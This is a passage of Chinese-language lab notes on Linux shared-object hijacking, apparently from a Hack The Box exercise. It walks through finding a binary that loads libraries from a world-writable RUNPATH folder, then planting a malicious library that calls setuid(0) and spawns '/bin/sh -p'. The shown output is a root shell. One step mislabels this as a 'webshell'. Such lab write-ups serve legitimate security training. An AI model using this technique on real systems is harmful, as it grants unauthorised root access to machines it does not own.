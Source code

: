 ### 10. 共享对象劫持

我们可以使用 ldd 打印二进制或共享对象所需的共享对象

```shell
htb_student@NIX02:~$ ldd payroll
    linux-vdso.so.1 =>  (0x00007ffcb3133000)
    libshared.so => /lib/x86_64-linux-gnu/libshared.so (0x00007f7f62e51000)  # 非标准库
    libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f7f62876000)
    /lib64/ld-linux-x86-64.so.2 (0x00007f7f62c40000)
```

在上面的输出中我们发现一个非标准库被列为二进制文件的依赖项，在这里我们可以使用 readelf 进行检查

```shell
htb_student@NIX02:~$ readelf -d payroll  | grep PATH
 0x000000000000001d (RUNPATH)            Library runpath: [/development]
```

该配置允许从所有用户可写的 /development 文件夹加载库，并且在这个文件夹的库优先于其他文件夹。

可以通过在 /development 中放置恶意库来利用此错误配置，这将优先于其他文件夹，因为首先检查此文件中的条目（在配置文件中出现其他文件夹之前）

```shell
# 移动共享文件
cp /lib/x86_64-linux-gnu/libc.so.6 /development/libshared.so

# 检查共享对象库位置是否发生变化
ldd payroll

# 执行，发现缺少 dbquery
htb_student@NIX02:~$ ./payroll 
	./payroll: symbol lookup error: ./payroll: undefined symbol: dbquery
```

编译包含 dbquery 函数的共享对象

```shell
#  src.c
#include<stdio.h>
#include<stdlib.h>

void dbquery() {
    printf("Malicious library loaded\n");
    setuid(0);
    system("/bin/sh -p");
} 

# 编译
gcc src.c -fPIC -shared -o /development/libshared.so

# 获取 WEBSHELL 
htb_student@NIX02:~$ ./payroll 

***************Inlane Freight Employee Database***************

Malicious library loaded
# id
uid=0(root) gid=1000(mrb3n) groups=1000(mrb3n)
```
